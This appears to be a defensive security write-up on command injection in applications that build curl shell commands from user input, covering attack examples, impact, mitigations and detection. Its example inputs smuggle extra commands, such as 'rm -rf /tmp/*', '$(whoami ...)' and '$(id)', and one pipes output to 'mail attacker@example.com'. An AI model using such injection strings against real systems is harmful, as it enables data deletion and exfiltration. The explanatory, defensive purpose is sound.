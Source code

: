 ## Deep Dive Analysis: Command Injection via `curl` Command-Line

This analysis delves into the command injection attack surface when an application utilizes the `curl` command-line tool. We will dissect the vulnerability, its implications, and provide comprehensive mitigation strategies.

**Attack Surface Revisited:** Command Injection when using the `curl` command-line utility.

**Technical Breakdown:**

At its core, this vulnerability arises from a fundamental security flaw: **trusting and directly incorporating untrusted data into system commands.** When an application constructs a `curl` command string by concatenating user-provided input without proper sanitization, it creates an opportunity for attackers to inject their own commands.

The `system()` function (or similar process execution mechanisms) in many programming languages acts as a bridge between the application and the operating system's shell. This shell interprets the provided string as a command. Attackers exploit this by injecting shell metacharacters and commands within the user-controlled input.

**How `curl` Specifically Contributes to the Attack Surface:**

While the underlying issue is the lack of input sanitization, `curl`'s versatility and wide range of options make it a powerful tool for attackers when command injection is possible. Here's how:

* **URL Manipulation:** Attackers can inject malicious URLs to download and execute arbitrary scripts or binaries. Options like `-o` or `--output` can be used to specify where these downloaded files are saved.
* **Header Injection:**  While less directly related to command execution, attackers might be able to inject malicious headers that could be exploited by the target server or intermediaries.
* **Configuration File Exploitation:**  The `--config` option allows specifying a configuration file. If an attacker can control this path, they could point to a malicious configuration file containing arbitrary commands.
* **Protocol Manipulation:**  While less common for direct command injection, manipulating protocols or options could potentially be a stepping stone for further attacks.
* **Authentication Bypass (Potentially):** In some scenarios, attackers might try to manipulate authentication options (though this is less direct command injection).
* **Leveraging `curl`'s Features for Exfiltration:**  Once command execution is achieved, `curl` itself can be used to exfiltrate data to attacker-controlled servers.

**Expanded Example Scenarios:**

Beyond the initial example, let's explore more diverse attack vectors:

* **Filename Injection:** An application allows users to specify the output filename for a downloaded file. A malicious user inputs: `important.txt; rm -rf /tmp/*`. This could delete temporary files after the intended download.
* **URL Parameter Injection:** An application uses user input to construct the URL. A malicious user inputs: `example.com/?file=data.txt&param=$(whoami > /tmp/whoami.txt)`. This attempts to execute the `whoami` command and save the output.
* **Using Backticks or `$(...)`:** Attackers can leverage shell command substitution. For example, inputting `$(id)` could reveal the user ID the application is running under.
* **Chaining Commands with Pipes:**  An application allows users to filter the output of a `curl` request. A malicious user inputs: `| grep 'sensitive' && mail attacker@example.com < output.txt`. This attempts to filter the output and then email it to the attacker.
* **Exploiting `--get` and URL Encoding:**  Even when using `--get`, careful manipulation of URL-encoded parameters can sometimes lead to command injection if the application doesn't properly handle the decoded values.
* **Abuse of `--data` or `--data-urlencode`:**  While primarily for sending data, these options could be manipulated to inject commands if the application blindly incorporates the data into further shell commands.

**Impact Analysis - Going Deeper:**

The "complete compromise of the server" is a significant understatement of the potential impact. Let's break it down further:

* **Data Breach:** Attackers can access sensitive data stored on the server, including databases, configuration files, and user information.
* **Malware Installation:**  The attacker can install various forms of malware, including backdoors, rootkits, and cryptominers, ensuring persistent access and control.
* **Denial of Service (DoS):** Attackers can execute commands that consume resources, overload the server, and render it unavailable to legitimate users.
* **Lateral Movement:**  Compromised servers can be used as a launching pad to attack other systems within the network.
* **Privilege Escalation:**  If the application runs with elevated privileges, the attacker gains those privileges, potentially leading to complete control of the entire infrastructure.
* **Reputational Damage:**  A successful attack can severely damage the organization's reputation and erode customer trust.
* **Legal and Regulatory Consequences:** Data breaches and security incidents can lead to significant fines and legal repercussions.
* **Supply Chain Attacks:** If the compromised application is part of a larger system or service, the attacker could potentially compromise downstream systems or customers.

**Comprehensive Mitigation Strategies:**

Building upon the initial suggestions, here's a more detailed breakdown of mitigation strategies:

* **Prioritize `libcurl` API:** This is the **strongest and most recommended mitigation**. `libcurl` allows direct interaction with `curl`'s functionality within the application's process, eliminating the need for shell execution and the associated risks. It offers fine-grained control and avoids the complexities of shell escaping.
    * **Benefits:**  No shell interaction, direct control over options, safer handling of data.
    * **Considerations:** Requires more development effort to integrate and learn the API.

* **Strict Input Sanitization (If Command-Line Execution is Absolutely Necessary):**  This is a complex and error-prone approach and should be a last resort.
    * **Whitelisting:** Define an allowed set of characters and patterns for user input. Reject any input that doesn't conform. This is generally more secure than blacklisting.
    * **Blacklisting (Less Secure):**  Attempting to block known malicious characters or command sequences. This is difficult to maintain and can be easily bypassed as attackers find new techniques.
    * **Shell Escaping:**  Use language-specific functions to escape shell metacharacters. However, be aware of nuances and potential bypasses in different shell environments. **Example (Python):** `shlex.quote()` in Python can help, but it's not a foolproof solution.
    * **Regular Expressions:**  Use carefully crafted regular expressions to validate input formats.
    * **Input Length Limitations:**  Impose reasonable length limits on input fields to restrict the size of potential malicious payloads.
    * **Consider the Shell:** Different shells (bash, zsh, etc.) have different syntax and metacharacters. Ensure your escaping and sanitization are effective across the intended environments.

* **Parameterization (If the System Allows):**  This involves separating the command from the data passed to it. This is often applicable when interacting with databases or other systems that support parameterized queries. However, it's less directly applicable to executing arbitrary shell commands with `curl`. If the underlying system *could* support a way to pass `curl` options as separate arguments without shell interpretation, that would be ideal.

* **Principle of Least Privilege:** Run the application with the minimum necessary privileges. If the application is compromised, the attacker's access will be limited.

* **Security Audits and Code Reviews:** Regularly review the code, especially sections that construct and execute shell commands. Look for potential vulnerabilities and ensure proper sanitization is in place. Use static analysis tools to automatically detect potential issues.

* **Web Application Firewalls (WAFs):**  A WAF can help detect and block malicious requests before they reach the application. Configure the WAF to look for common command injection patterns.

* **Content Security Policy (CSP):** While not a direct mitigation for command injection on the server-side, CSP can help prevent the execution of injected client-side scripts if the attacker manages to inject code that generates web pages.

* **Input Validation on the Client-Side:** While not a primary defense against server-side command injection, client-side validation can provide an initial layer of defense and improve the user experience by preventing obviously malicious input from being submitted.

* **Regularly Update `curl`:** Keep the `curl` library and command-line tool updated to the latest versions to patch any known vulnerabilities in `curl` itself.

* **Logging and Monitoring:** Implement robust logging to record all executed commands, including those involving `curl`. Monitor these logs for suspicious activity.

* **Security Training for Developers:** Educate developers about the risks of command injection and best practices for secure coding.

**Detection and Monitoring Strategies:**

Even with mitigation in place, it's crucial to have mechanisms to detect potential attacks:

* **Log Analysis:** Analyze application logs for unusual `curl` commands, unexpected characters, or attempts to access sensitive files.
* **Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS):** Configure IDS/IPS to detect patterns associated with command injection attempts.
* **File Integrity Monitoring (FIM):** Monitor critical system files for unauthorized changes, which could indicate successful command injection and malware installation.
* **Network Traffic Analysis:** Monitor network traffic for unusual outbound connections or data transfers that might indicate data exfiltration.
* **Honeypots:** Deploy honeypots to attract attackers and detect malicious activity early.
* **Security Information and Event Management (SIEM) Systems:** Aggregate logs from various sources and use correlation rules to identify potential command injection attacks.

**Conclusion:**

Command injection when using the `curl` command-line tool represents a **critical vulnerability** with the potential for severe consequences. While `curl` itself is a powerful and legitimate tool, its integration into applications via shell execution requires extreme caution.

**The absolute best approach is to avoid command-line execution altogether and utilize the `libcurl` API.** If command-line execution is unavoidable, implementing robust input sanitization, understanding the nuances of shell escaping, and adopting a defense-in-depth strategy are paramount. Regular security audits, code reviews, and developer training are essential to prevent and detect this dangerous attack vector. Failing to properly address this attack surface can lead to complete system compromise and significant damage to the organization.
